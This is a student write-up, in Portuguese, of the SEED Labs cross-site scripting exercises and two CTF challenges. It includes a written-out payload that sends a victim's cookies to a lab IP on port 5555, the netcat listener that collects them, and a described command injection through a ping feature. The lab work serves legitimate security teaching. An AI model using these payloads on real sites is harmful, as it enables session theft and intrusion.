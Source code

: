 # Seed Labs - Cross Site Scripting

Trabalho Realizado na semana 10 e 11.

## Lab Setup

Incialmente, utilizamos o comando gedit admin:///etc/hosts para podermos editar o ficheiro com os dados que foram dados

![](./imgs/log103.png)

E corremos o dcbuild e dcups.

## Task 1: Posting a Malicious Message to Display an Alert Window


O objetivo desta tarefa foi incorporar um programa javasript que será executado quando a página for carregada e exibirá um pop up com 'XSS'.
Para isso , fizemos login com a Alice, e editamo seu perfil com o seguinte comando.

![](./imgs/log104.png)

e o Pop Up aconteceu.

![](./imgs/log112.png)

## Task 2: Posting a Malicious Message to Display Cookies

Basicamente a tarefa 2 era a mesma da primeira mas desta vez a imprimir o cookie do user.

Para isso, em vez do alert('XSS') , metemos alert('document.cookie') e ...

![](./imgs/log106.png)

## Task 3: Stealing Cookies from the Victim's Machine
Nesta tarefa o objetivo é roubar os cookies de algum vistitante, neste caso na pagina da Alice.

Para isso substituimos o alert por :
document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');

O '10.9.0.1' é o endereço IP da máquina enquanto '5555' corresponde ao local da porta onde o script enviará um HTTP GET para a máquina.

![](./imgs/log107.png)

Corremos então o seguinte comando 'nc -lknv 5555' , no terminal, o que nos permitirá ver o que somos capazes de roubar.
E o resultado foi....

![](./imgs/log108.png)

## Task 4: Becoming the Victim’s Friend
Nesta tarefa simulamos uma requisição HTML com JS.

Para isso, editamos no About Me, com o perfil do Samy, EDIT HTML:
![](./imgs/log111.png)

Obtivemos o url necessário através de uma inspeção de pagina, 
![](./imgs/log109.png)

e quando voltamos á pagina do Samy ...
![](./imgs/log110.png)


# Desafios CTF

## CTF 1

No primeiro desafio tínhamos um servidor web em ctf-fsi.fe.up.pt:5002, onde podíamos enviar pedidos ao admin a pedir a flag.
Como conseguimos incorporar um javasript, tentamos usá-lo.

Usando o script a seguir, conseguimos obter a bandeira para o primeiro desafio:

![](./imgs/log101.png)

A flag demorou a aparecer, mas o que esse código faz é pegar o html com o id "giveflag" e clicar nele.
A explicação é que o elemento ao clicar tinha uma função que nos dava a flag.
Aqui está a bandeira:

![](./imgs/log102.png)

## CTF 2

Uma das features que tinhamos acessos era a de testar o ping para determinado endereço web. Tal comando era feito usando uma chamada ao sistema linux. Apos alguns testes, descobrimos como podiamos usar isso a nosso favor.

![](./imgs/logdes2.png)


Primeiro começamos a usar ls –a para ver todos os arquivos na pagina. Ao nao ser encontrado nada parecido com a flag, decidimos usar cd para a troca de pasta. E utilizamos o cat para vermos o conteudo de qualquer ficheiro onde o nome fosse flag.txt

![](./imgs/logdes3.png)
